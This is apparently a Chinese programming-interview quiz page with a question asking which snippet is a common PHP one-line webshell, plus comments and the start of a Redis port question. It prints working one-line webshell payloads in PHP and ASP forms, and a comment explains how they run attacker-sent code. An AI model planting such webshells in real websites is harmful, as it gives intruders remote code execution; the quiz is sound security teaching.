 以下哪一段代码是 php 常见的 "一句话木马"？（）

正确答案: B   你的答案: 空 (错误)

```cpp
<%execute(request("value"))%>
```

```cpp
<?php @eval($_POST[value]);?>
```

```cpp
<%@ Page Language="Jscript"%>
```

```cpp
<%eval(Request.Item["value"])%>
```

本题知识点

Java 工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 PHP 安全工程师 2019

讨论

[夏天 20181226203522](https://www.nowcoder.com/profile/565781264)

其中 eval 就是执行命令的函数，$_POST['a']就是接收的数据。eval 函数把接收的数据当作 PHP 代码来执行。这样我们就能够让插入了一句话木马的网站执行我们传递过去的任意 PHP 语句。这便是一句话木马的强大之处。

发表于 2019-09-12 11:12:09

* * *

[Kzeale](https://www.nowcoder.com/profile/484607481)

F12 查看，发现答案 B 是有答案的，😂,不信自己打开看看 ```cpp
<?php

```

![](img/08cd84db82655bedfa4008b1131839b7.png) 

编辑于 2019-09-06 14:26:24

* * *

[咸鱼同学](https://www.nowcoder.com/profile/684987786)

![](img/2e3bdb677f77ed87d107b2eaa8df61d7.png)

发表于 2019-09-05 14:13:05

* * *

## 18

Redis 的常用的默认端口是？（）

正确答案: A   你的答案: 空 (错误)

```cpp
6379
```
